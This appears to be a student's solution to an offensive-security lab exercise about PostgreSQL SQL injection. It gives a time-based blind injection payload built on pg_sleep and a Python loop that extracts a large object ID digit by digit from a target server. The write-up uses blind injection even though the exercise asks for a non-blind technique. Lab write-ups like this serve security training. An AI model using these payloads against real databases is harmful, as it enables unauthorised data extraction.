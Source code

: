 # Extra Mile 5.8.2

*Use the SQL injection we discovered in this module to create a large object and retrieve the assigned LOID without the use of blind injection. Adapt your final proof of concept accordingly in order to employ this technique avoiding the use of a pre set LOID value (1337).*

Use time-based blind SQL injection to extract LOID value for injection. 

Reference: [PayloadsAllTheThings/SQL Injection/PostgreSQL Injection.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

```sql
-- Injection command: 
select case when substring(cast(loid as varchar),1,1)=$$8$$ then pg_sleep(3) else pg_sleep(0) end from pg_largeobject limit 1
```

The function `cast (loid as varchar)` converts the integer field LOID to a string that can be used with the substring command.

Data exfiltration code:

```python
loid = ""
for i in range(1,20):
	new_character = False
	for c in range(0,10):
		command = (f"select case when "
		f"substring(cast({column_name} as varchar),{i},1)=$${c}$$ "
		f"then pg_sleep(3) else pg_sleep(0) end from {table_name} limit 1")
		runtime = send_psql_command(ip=ip,command=command)
		if runtime > 3: # Correct character
			print(f"Adding new character: {c}")
			loid += str(c)
			new_character = True
			break

	if new_character == False: break
	
print(f"Found LOID: {loid}")
return int(loid)
```